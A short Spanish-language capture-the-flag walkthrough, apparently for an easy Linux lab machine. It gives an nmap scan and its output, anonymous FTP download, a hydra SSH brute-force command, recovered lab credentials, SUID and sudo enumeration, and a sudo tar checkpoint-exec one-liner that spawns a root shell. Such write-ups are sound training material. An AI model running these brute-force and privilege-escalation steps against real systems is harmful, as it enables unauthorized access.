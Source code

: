 #Linux #Easy 
### Scan
```css
sudo nmap -p- --open -sCV -sS --min-rate 3000 -n -vvv -Pn 10.10.211.59
```
### 
```css
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.203.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.59 seconds
```
parece que tenemos conexión con el puerto 21 ftp de manera anónima (anonymous)
### Puerto 21 ftp
```c 
ftp anonymous@10.10.211.59

mget * (descarga todo el contenido en nuestro directorio)
```

### Con los archivos que hemos coseguido vamos a realizar un ataque de fuerza bruta contra el pueto ssh

```css 
	hydra -l <nombre_de_usuario> -P <ruta_al_archivo_de_contraseñas> ssh://<dirección_ip>:22
```

![[2023-10-29_23-17.png]]

### Credenciales ssh
```c
	username: lin
	password: RedDr4gonSynd1cat3
```

# Enumeración básica sistema
```css
	find / -perm -4000 2>/dev/null
```
# Permisos sudo
```css
	sudo -l
```
# Permisos SUID
```css
 /bin/tar
```

### para escalar privilegios con el binario /bin/tar podemos ejecutar el comando (siempre que tengamos permisos sudo con el actual usuario)

```c
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```